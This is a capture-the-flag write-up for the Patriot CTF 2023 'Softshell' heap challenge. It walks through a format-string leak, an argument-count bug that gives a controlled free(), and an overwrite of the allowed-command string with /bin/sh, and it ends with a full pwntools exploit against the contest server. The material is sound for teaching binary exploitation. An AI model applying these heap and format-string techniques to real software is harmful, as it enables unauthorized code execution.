









### Exploiting heap structure to get a shell
#### Patriot CTF pwn Softshell

Exploiting a linked list structure on the heap for a write-what-where gadget.
<!-- more -->

This was the second hardest pwn challenge of Patriot CTF 2023 with 33 solves. The only file provided was the binary itself.

{}

The steps for solving this challenge was to find the vulnerabilities in add_cmd and view_cmd, and then using the del_arg, run_cmd and edit_tag functions to modify the heap and data section. These are pretty much all of the options we get from the program - add command, view command, edit tag, run command and remove argument functions. The edit_tag function should immediately make us suspicious as there is no obvious reason commands should have tags in addition to unique indexes. This made me think were going to be able to mess with some pointers and use the edit_tag function to edit whatever we want.

This is necessary because of the check in the run_cmd function:
```c
strcmp(*(char **)(cmd + 8),"/usr/games/cowsay moooo");
```
This strcmp means that we can currently only run the command "/usr/games/cowsay moooo" which is not of very much use to us.

To create some understanding in case youre not running the binary yourself, this is what the heap looks like after selecting add command once, sending "first a b" as the command, and sending "AAAA" as the tag.



The above output is created with the `vis` command in pwndbg, and displays each heap chunk in a different colour from the previous. The very first chunk we see (the one at 0x5555555592a0) is only created once, and is used in the menu function to find the base of its heap data. The rest of the chunks are created for every command we add. The first chunk of a command always has a size of 0x30 and contains a pointer the commands tag, a pointer to the full command, and a pointer to a list of the commands arguments (in that order).

It creates a chunk for the full command, and a chunk for each of its arguments. The list of arguments (stored at 0x555555559320 in the above case) contains pointers to each arguments chunk in the order they were input. An important thing to note is the number 03 at the end of the commands first chunk in the picture abovce. This value is how many arguments the command thinks it has ("first a b" => 03). How the arguments are parsed can be found in the the add_cmd function and this is where we find the first vulnerability. The disassembly for add_cmd is very long, but here is the interesting part.

```c
for (i = 0; input[i] != '\0'; i = i + 1) {
  if (input[i] == ' ') {
    *(int *)(heap_pointers + 3) = *(int *)(heap_pointers + 3) + 1;
  }
}
i = 0;
split_input = strtok(input," ");
cmd_ptr = (char *)malloc(8);
heap_pointers[2] = cmd_ptr;
while (split_input != (char *)0x0) {
  cmd_ptr = (char *)realloc(heap_pointers[2],(long)(i + 1) * 8);
  heap_pointers[2] = cmd_ptr;
  inp_length = strlen(split_input);
  cmd_ptr = heap_pointers[2];
  arg_ptr = malloc(inp_length + 1);
  *(void **)(cmd_ptr + (long)i * 8) = arg_ptr;
  strcpy(*(char **)(heap_pointers[2] + (long)i * 8),split_input);
  i = i + 1;
  split_input = strtok((char *)0x0," ");
}
```

This is the code that parses our commands arguments. The first for loop counts whitespaces in the input and stores this value as the number of args (the '03' we saw on the heap before). However when it comes to storing the arguments, it uses strtok to split on whitespace and loop through the resulting parts until a part equals 0x00. This means that we can send a whitespace before and after our previous input, and trick the program into thinking that there are two more arguments than there really are. 

We can test this by sending " first a b " and inspecting the heap.



We can see that the heap looks pretty much exactly the same as before, except for the number 03 from before that has been changed to 05. This means that the program now thinks that there are 5 arguments, even though there are only 3. There are also only 3 arg pointers in the list starting at 0x555555559320. 

We can also see that the values immediately stored after the arg pointer list are 8 bytes containing the size of the next heap chunk (0x21) and an 8 bytes controlled by our first argument ("first" in our example). When we try to remove an argument from a command with the del_arg function, it tries to free the last address of the arg pointer list. Because the program now thinks there are 5 arguments, it will use the 5th 8 byte pointer, starting at the start of the list (0x555555559320), instead of the 3rd pointer which actually points to the real last argument. 

The 5th 8 byte pointer should be controlled by our input, and we can confirm this by setting a breakpoint at the free instruction in del_arg, and see what it is trying to free.



We can see though pwndbg that the program tries to free 0x7473726966, which is hex for "first" - our first argument. This means whatever address we put in our first argument, we are now able to free! It should be noted for this part that because of how the heap is constructed we should use an odd number of arguments, such as 3. If we don't the address that will be used by free will be the next heap chunk size (try it yourself).

We should now see our plan starting to take shape. If we can control the tag pointer of a command (the one stored at 0x5555555592d0 in both our above pictures), we can use the edit_tag function to edit any part of memory. This is because the edit_tag function uses the tag pointer in deciding where to edit, without performing any checks. Ideally we would use this to edit the string containing "/usr/games/cowsay moooo".

Our plan for doing this will be to use our controlled free to free the chunk containing the tag pointer (and the cmd and arg list pointers), and then creating a new chunk editing the tag pointer position to point at the address of "/usr/games/cowsay moooo".

To be able to execute our plan we need to leak an address from the heap and an address from the executable. We will use these to calculate which heap address to free, and which executable address to fill the freed chunk with. Fortunately this won't be very hard, as the view_cmd contains the following line.
```c
printf(*(char **)(heap_pointers[2] + (long)index * 8));
```
Here, heap_pointers[2] refers to the third pointer of the commands tag pointer, command pointer and arg list pointer. Index refers to the index in the argument pointer list of the argument to be printed. However, the important thing to notice is that our input is used as the first argument to printf, giving us a format string vulnerability that we can use to leak addresses. Playing around with the input I found that we can leak a heap address by providing %6$p to a command argument and leak an executable address by using %15$p.

To calculate the correct offsets from the leaked address to our heap data and the allowed command string in the executable, we can run the following script, and inspect and calculate in gdb.

```py
from pwn import *

exe = ELF("./softshell")

p = process("./softshell")
gdb.attach(p)

#p = remote("chal.pctf.competitivecyber.club", 8888)

context.binary = exe

p.recvuntil(b">>")
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(b"%6$p %15$p")
p.recvuntil(b">>")
p.sendline(b"AAAA")

p.recvuntil(b">>")
p.sendline(b"2")
p.recvuntil(b">>")
p.sendline(b"0")
p.recvuntil(b">>")
p.sendline(b"0")

heap_leak = int(p.recvline().strip(),16)
log.info(f"{hex(heap_leak)=}")

p.recvuntil(b">>")
p.sendline(b"2")
p.recvuntil(b">>")
p.sendline(b"0")
p.recvuntil(b">>")
p.sendline(b"1")

exe_leak = int(p.recvline().strip(),16)
log.info(f"{hex(exe_leak)=}")
p.interactive()
```



Above, I first calculated the offset from our leak to the base of the executable (found with `vmmap` in pwndbg). I then calculated the offset from the address of the allowed string (found by disassembling run_cmd) to the base of the executable. The following code calculates the allowed string address correctly.

```py
exe_base = exe_leak - 0x1e89
log.info(f"{hex(exe_base)=}")

allowed_str_addr = exe_base + 0x4020
log.info(f"{hex(allowed_str_addr)=}")
```

Inspecting the heap address that we leak and the heap using pwndbg, we realise that the heap address we are leaking points to the base chunk used by main that we saw before - the one at 0x5555555592a0. To calculate the offset from this to what we would like to free, we will create a new command after the leaking process and inspect the heap with pwngdb to get the following output.



I sent " BBBB CCCC DDDD " as the command, and "EEEE" to make the input recognizable. I also highlighted the tag pointer of the second command. We can see that this pointer is located at 0x55d496bbd3a0. This is 0x100 above our leak so we can add the following to our exploit script.

```py
tag_ptr = heap_leak + 0x100
log.info(f"address of tag_ptr for cmd 2: {hex(tag_ptr)}")
```

If we were to remove the last arg of the second command now (the one with index 1), it would try to free the address "BBBB". We will therefore use the python script we have so far and add another command with the following input: " p64(tag_ptr) arg1 arg2 ". The tag is irrelevant, but make sure to include the spaces in the command. We will then proceed to remove the last arg of our second command, freeing the tag pointer of the second command.

To confirm this we can add the following to our python script and check that the chunk with the tag pointer is freed. Notice that I couldn't get p64 to work as intended so I found an alternative solution.

```py
tag_ptr=str(hex(tag_ptr))
payload_for_free = b" " + bytes.fromhex(tag_ptr[12:14]) +bytes.fromhex(tag_ptr[10:12]) +bytes.fromhex(tag_ptr[8:10]) +bytes.fromhex(tag_ptr[6:8]) +bytes.fromhex(tag_ptr[4:6]) +bytes.fromhex(tag_ptr[2:4]) + b" " + b"E"*4 + b" " + b"F"*0x4 + b" "

p.recvuntil(b">>")
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(payload_for_free) # need 3 args to control free
p.recvuntil(b">>")
p.sendline(b"G"*8)

p.recvuntil(b">>") # free tag pointer
p.sendline(b"5")
p.recvuntil(b">>")
p.sendline(b"1")

p.interactive()
```



We can see that the address that used to contain the tag pointer (highlighted) is now free. We also notice the correct address for the freeing in the first argument of the second command. We can inspect the free chunk with the `heap` command in gdb:



We see that the chunk is indeed free, and is of size 0x30. If we could fill the first 8 bytes of this chunk with the address of the allowed string, this will be interpreted as the tag pointer and we can use it to edit the allowed string through the edit pointer. 

Most of our input to the program gets a chunk based on the size of the input. This means that 8 bytes of input will create a chunk of size 0x20. This would not reuse the free'd chunk, but rather create a new one at the end of the heap. We need to be able to create a size 0x30 chunk while only giving 8 bytes of input. Conveniently though, the run_cmd function allows us to do this by constantly mallocing 0x28 bytes if we leave feedback after running an illegal command:

```c
  printf("\nCommand not allowed!\nLeave feedback? (y/n) >> ");
  iVar2 = getchar();
  cVar1 = (char)iVar2;
  if ((cVar1 == 'Y') || (cVar1 == 'y')) {
    getchar();
    printf("Feedback >> ");
    __s = (char *)malloc(0x28);
    fgets(__s,0x28,stdin);
    __stream = fopen("/dev/null","a");
    fputs(__s,__stream);
    fclose(__stream);
  }
```

The malloc(0x28) line will create a 0x30 sized chunk, so all we need to do is try to run one of our commands, say yes to giving input, and send the address of the allowed string. Note that yet again I couldn't get p64 to work, so I did the same as before. If you're trying the same, remember the nullbytes at the end to not get your address ruined by a newline character.

We can confirm that the tag pointer change has taken effect by viewing the second command as seen below.



When we now edit the tag of the second command, we instead edit the allowed string. All that is left to do is to edit the allowed string to "/bin/sh", create a new command containing "/bin/sh" and running that last command. This lets us pop a shell and cat the flag as seen below.




## Full Exploit:
```py
from pwn import *

exe = ELF("./softshell")

# p = process("./softshell")
# gdb.attach(p)

p = remote("chal.pctf.competitivecyber.club", 8888)

context.binary = exe

p.recvuntil(b">>")
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(b"%6$p %15$p")
p.recvuntil(b">>")
p.sendline(b"AAAA")

p.recvuntil(b">>")
p.sendline(b"2")
p.recvuntil(b">>")
p.sendline(b"0")
p.recvuntil(b">>")
p.sendline(b"0")

heap_leak = int(p.recvline().strip(),16)
log.info(f"{hex(heap_leak)=}")

p.recvuntil(b">>")
p.sendline(b"2")
p.recvuntil(b">>")
p.sendline(b"0")
p.recvuntil(b">>")
p.sendline(b"1")

exe_leak = int(p.recvline().strip(),16)
exe_base = exe_leak - 0x1e89 # remote
# exe_base = exe_leak - 0x1e8c # local - slightly different offset remotely and locally, but we know the base should be a round number, so not an issue
log.info(f"{hex(exe_base)=}")

allowed_str_addr = exe_base + 0x4020
log.info(f"{hex(allowed_str_addr)=}")

tag_ptr = heap_leak + 0x100
log.info(f"address of tag_ptr for cmd 2: {hex(tag_ptr)}")

tag_ptr=str(hex(tag_ptr))
payload_for_free = b" " + bytes.fromhex(tag_ptr[12:14]) +bytes.fromhex(tag_ptr[10:12]) +bytes.fromhex(tag_ptr[8:10]) +bytes.fromhex(tag_ptr[6:8]) +bytes.fromhex(tag_ptr[4:6]) +bytes.fromhex(tag_ptr[2:4]) + b" " + b"E"*4 + b" " + b"F"*0x4 + b" "

p.recvuntil(b">>")
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(payload_for_free) # need 3 args to control free
p.recvuntil(b">>")
p.sendline(b"G"*8)

p.recvuntil(b">>") # free tag pointer
p.sendline(b"5")
p.recvuntil(b">>")
p.sendline(b"1")

allowed_str_addr=str(hex(allowed_str_addr))
byte_addr_allowed = bytes.fromhex(allowed_str_addr[12:14]) + bytes.fromhex(allowed_str_addr[10:12]) + bytes.fromhex(allowed_str_addr[8:10]) + bytes.fromhex(allowed_str_addr[6:8]) + bytes.fromhex(allowed_str_addr[4:6]) + bytes.fromhex(allowed_str_addr[2:4]) + b"\x00\x00"

p.recvuntil(b">>") 
p.sendline(b"4")
p.recvuntil(b">>")
p.sendline(b"0") 
p.recvuntil(b">>")
p.sendline(b"y") # creates a 0x30 chunk
p.recvuntil(b">>")
p.sendline(byte_addr_allowed) 

p.recvuntil(b">>") # edit allowed string
p.sendline(b"3")
p.recvuntil(b">>")
p.sendline(b"1") 
p.recvuntil(b">>")
p.sendline(b"/bin/sh")

p.recvuntil(b">>") # create command
p.sendline(b"1")
p.recvuntil(b">>")
p.sendline(b"/bin/sh")
p.recvuntil(b">>")
p.sendline(b"yey")

p.recvuntil(b">>") # run it
p.sendline(b"4")
p.recvuntil(b">>")
p.sendline(b"2")

p.interactive()
```


